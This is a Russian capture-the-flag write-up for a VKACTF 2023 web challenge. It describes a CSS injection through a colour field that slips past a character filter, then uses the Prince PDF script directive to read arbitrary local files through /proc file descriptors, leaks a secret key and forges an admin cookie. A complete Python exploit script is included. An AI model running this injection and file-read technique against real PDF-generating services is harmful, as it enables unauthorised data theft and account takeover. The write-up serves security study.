



## Хеликоптер

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKACTF 2023 | Хеликоптер  | Web | Hard |

  
### Описание


> Автор: [ vChuk ]
>
Вертолет Эггмана, известного злобного гения и вечного врага Соника и Майлза, был захвачен динамичным дуэтом суперскоростного ежа и его верного друга, летающего лисенка. Внутри вертолета, захваченного на летнем острове Саут Айленд, они обнаружили зловещий план Эггмана по захвату мира. Помоги им остановить его 
> 


### Решение
Была дана часть исходного кода приложения, отвечающаяя за генерацию pdf.

В README.md написано:
```txt
Из переменных, которые стоит изменить:
    SECRET_KEY
    WORKDIR
    BASE_DIR
    SESSION_COOKIE_NAME 
```
Так-же из исходного кода можно отметить чтение config.json
```python
    config = open("config.json")
    config_data = config.read()
    config_json = json.loads(config_data)
```
Из-за измененного BASE_DIR прочитать файлы не получиться, но в данном случае, из-за того что файл не закрывается, присутствует возможность чтение файла` config.js` через `cat /proc/N/fd/K` , где N - номер процесса приложения, K - номер файлового дескриптора.

В веб приложении был функционал, позволяющий изменять цвет background. 
Данное значение помещалось в сертификат в background-color. На изменение, происходила проверка на символы
```txt
["/", "#", '"', "'", "<", ">","{{", "."]
```
Это можно было узнать, по ответу, который приходил от сервера.
Данный фильтр не позволял открыть новые тэги, читать файл с расширением(где в названии присутствовала точка)

Так-же имелась возможность генерирования pdf файла, с помощью Prince PDF 14.2. 
Т.к. имелся контроль над background-color, с поправкой на фильтр, имелась возможность css инъекции. В [документации](https://www.princexml.com/doc/14/prince-output/) имеется пример:
```js
@prince-pdf {
        -prince-pdf-script: url("myscript.js")
    }
```
Согласно документации, можно включить локальный файл, в данной версии возможно включить любой файл системы. Для обхода фильтра `/`, необходимо использовать `\\`. При генерации pdf `\\ -> /`.





Содержимое файла находится в PDF файле, в секции JS, закодированном в UTF-16 HEX. Для его просмотра необходимо воспользоваться приложением, которое открывает PDF файл, как текст(например HeX, Notepad)

Из исходного кода, зная ошибку конфигурации и имея LFI, можно написать скрипт, который просмотрит первые `20 N` и `20 K` для прочтения `config.json`. Из него можно узнать `SECRET_KEY`, переподписать куки `superuser=True` и получить флаг

python скрипт
```python
import requests
import re 
import codecs

import os

URL = "http://some/url/"
username = os.urandom(8).hex()
password = os.urandom(8).hex()


print(f"{username = }\t{password =}")

s = requests.Session()

# Изменение цвета, для чтения файла
def change_color(data):
    payload = "ffc42e;}@prince-pdf{prince-pdf-script:url("+ data +");}{"
    return s.get(URL+"api/color?value="+payload)

# Получение pdf сертификата
def get_pdfcert():
    return s.get(URL+"certificate/pdf").text

# Парсинг pdf файла
def get_JS(cert):
    res = re.findall(r"/JS <(.*)>>>", cert)
    if len(res) == 1:
        print("\n[+] Find File JS")
        text = codecs.decode(res[0], 'hex').decode('utf-16')
        print(text)


# регистрация 
s.post(URL+"register", data={"username":username, "password":password})

# авторизация
s.post(URL+"login", data={"username":username, "password":password})

for N in range(20):
    for K in range(20):
        print(f"{N = }\t{K = }", end="\r")
        res = change_color(f"\\\\proc\\\\{N}\\\\fd\\\\{K}")
        cert = get_pdfcert()
        get_JS(cert)
```

### Флаг

```
vka{lfi_can_read_all_process}
```